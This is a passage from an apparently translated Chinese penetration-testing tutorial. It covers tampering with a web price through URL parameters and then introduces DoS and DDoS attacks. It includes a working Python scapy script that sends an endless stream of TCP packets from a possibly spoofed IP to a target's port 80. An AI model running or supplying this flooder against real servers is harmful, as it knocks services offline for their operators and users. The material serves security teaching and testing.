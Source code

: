 看看前面截图中的矩形框。网页上写着价格为`60`，但从数据库中取出的价格是`600`。如果使用`GET`方法，可以通过 URL 篡改来改变价格`60`。价格可以被改成`6`而不是`60`。这将严重影响业务。在白盒测试中，客户会提供给你源代码，你可以分析这段代码，但在黑盒测试中，你必须使用攻击来进行测试。如果使用`POST`方法，可以使用 Mozilla 的附加组件 Tamper Data（[`addons.mozilla.org/en-US/firefox/addon/tamper-data/`](https://addons.mozilla.org/en-US/firefox/addon/tamper-data/)）进行参数篡改。你必须手动操作，所以不需要使用 Python 编程。

# 介绍 DoS 和 DDoS

在本节中，我们将讨论最致命的攻击之一，称为拒绝服务攻击。这种攻击的目的是消耗机器或网络资源，使其对预期用户不可用。一般来说，攻击者在其他攻击失败时使用这种攻击。这种攻击可以在数据链路、网络或应用层进行。通常，Web 服务器是黑客的目标。在 DoS 攻击中，攻击者向 Web 服务器发送大量请求，旨在消耗网络带宽和机器内存。在**分布式拒绝服务**（**DDoS**）攻击中，攻击者从不同的 IP 地址发送大量请求。为了进行 DDoS 攻击，攻击者可以使用特洛伦或 IP 欺骗。在本节中，我们将进行各种实验来完成我们的报告。

# 单个 IP，单个端口

在这次攻击中，我们使用单个 IP（可能是伪造的）和单个源端口号向 Web 服务器发送大量数据包。这是一种非常低级的 DoS 攻击，将测试 Web 服务器的请求处理能力。

以下是`sisp.py`的代码：

```py
from scapy.all import *
src = raw_input("Enter the Source IP ")
target = raw_input("Enter the Target IP ")
srcport = int(raw_input("Enter the Source Port "))
i=1
while True: 
  IP1 = IP(src=src, dst=target)
  TCP1 = TCP(sport=srcport, dport=80)
  pkt = IP1 / TCP1
  send(pkt,inter= .001)
  print "packet sent ", i
  i=i+1
```

我用 scapy 编写了这段代码，希望你熟悉。上面的代码要求三样东西：源 IP 地址、目标 IP 地址和源端口地址。

让我们检查攻击者机器上的输出：

![](img/9f703009-3f39-4ce3-bf68-e2900bcb5957.png)

